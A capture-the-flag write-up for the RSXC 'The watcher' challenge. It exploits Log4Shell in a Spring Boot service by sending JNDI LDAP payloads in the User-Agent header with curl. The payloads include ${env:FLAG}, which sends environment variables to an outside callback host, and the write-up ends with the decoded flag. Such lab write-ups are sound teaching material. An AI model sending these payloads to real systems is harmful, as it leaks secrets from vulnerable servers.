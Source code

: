 # 24 - The watcher

> We have found a service that watches our every step, are you able to figure out how we can read the FLAG from the environment? NB. Container will be restarted every 30 minutes.
> 
> http://rsxc.no:20024

---

This website greets us with: "Be careful, I'm logging everything...". I instantly thought this could potentially be a `log4j` challenge, but I was also thinking that it could be some other log poisoning vuln. Maybe some PHP RCE if we could access the logs through some other page or something.

Then I browsed to `http://rsxc.no:20024/a` and saw this message:

![](00.png "")

I Googled for `Whitelabel Error Page` and found this:

![](01.png "")

Looks like the server is running `Spring Boot`! I don't know much about `Spring Boot`, but I'm pretty sure that it's Java based.

> Spring Boot is an open source Java-based framework used to create a micro Service.

It certainly is, this ***MUST*** be a `log4j` challenge then!

I've read articles and watched videos about the `log4j` vulnerability so I know how it works. I also know that I don't really want to set up an `LDAP`-server for the callback. But I think we can manage to skip that step if we use one of the online test tools.

I'm going to use this online tool from Huntress Labs: https://log4shell.huntress.com/. I've seen this in action from John Hammond on Twitter and YouTube. It also supports testing for exfiltration of data. Based on the challenge text I'm pretty sure we need to read the `FLAG` environment variable. So that's going to be handy.

So, when we use the online tool we see the following:

![](02.png "")

We can see two payloads, one with an environment variable in the URI and onw without:

```bash
${jndi:ldap://log4shell.huntress.com:1389/6a39278e-2407-48d8-93c8-af03083834a3}

${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/6a39278e-2407-48d8-93c8-af03083834a3}
```

This `URI` contains the `hostname` and `port` for the `LDAP` callback server and our unique identifier. Now it's up to us to get the payload to the server somehow and make sure that the payload is being logged.

That should be easy since the target website brags; "Be careful, I'm logging everything...".

Let's try sending our payload through the `User-Agent`-header. And also add `${env:FLAG}` to the payload to read the correct variable.

```bash
$ curl -H "User-Agent: ${jndi:ldap://log4shell.huntress.com:1389/6a39278e-2407-48d8-93c8-af03083834a3}" "http://rsxc.no:20024/"
Be careful, I'm logging everything...
```

So after a few attempts with no callback and trying some different ways of delivering and encoding the payload. I finally realized that I forgot to escape the `$` character which `bash` processes otherwise.

```bash
$ curl -H "User-Agent: \${jndi:ldap://log4shell.huntress.com:1389/6a39278e-2407-48d8-93c8-af03083834a3}" "http://rsxc.no:20024/"
Be careful, I'm logging everything...

$ curl -H "User-Agent: \${jndi:ldap://log4shell.huntress.com:1389/${env:FLAG}/6a39278e-2407-48d8-93c8-af03083834a3}" "http://rsxc.no:20024/"
Be careful, I'm logging everything...

$ curl -H "User-Agent: \${jndi:ldap://log4shell.huntress.com:1389/${env:FLAG}/6a39278e-2407-48d8-93c8-af03083834a3}" "http://rsxc.no:20024/"
Be careful, I'm logging everything...

$ curl -H "User-Agent: \${jndi:ldap://log4shell.huntress.com:1389/${env:FLAG}/6a39278e-2407-48d8-93c8-af03083834a3}" "http://rsxc.no:20024/"
Be careful, I'm logging everything...

$ curl -H "User-Agent: \${jndi:ldap://log4shell.huntress.com:1389/\${env:FLAG}/6a39278e-2407-48d8-93c8-af03083834a3}" "http://rsxc.no:20024/"
Be careful, I'm logging everything...
```

So after making sure to escape the `$` character in both places I finally got the environment variable in the callback:

![](03.png "")

The flag seems to be `base32` encoded. Let's decode it:

![](04.png "")


## Solution

The flag is: `RSXC{We_do_like_logging_right?}`
